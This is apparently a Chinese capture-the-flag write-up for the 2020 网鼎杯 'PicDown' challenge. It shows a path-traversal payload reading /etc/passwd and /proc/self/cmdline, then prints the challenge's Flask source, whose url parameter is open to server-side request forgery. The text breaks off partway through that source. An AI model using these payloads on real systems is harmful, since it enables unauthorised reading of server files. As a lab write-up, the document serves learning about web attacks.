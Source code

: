 # 青龙组

## [网鼎杯 2020 白虎组]PicDown

打开发现参数拼接，会将网址结果返回为jpg文件

```
http://4a6fb514-4e6c-4b72-a635-80be6c793ae6.node3.buuoj.cn/page?url=???
```

尝试访问本地文件失败

```
http://4a6fb514-4e6c-4b72-a635-80be6c793ae6.node3.buuoj.cn/page?url=http://127.0.0.1:80/index.php
```

发现可以目录穿越读取任意文件

```
url=../../../../../../etc/passwd
```

再读取`/proc/self/cmdline`发现结果

```
python2 app.py
```

?url=app.py读一下，得到源码

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
```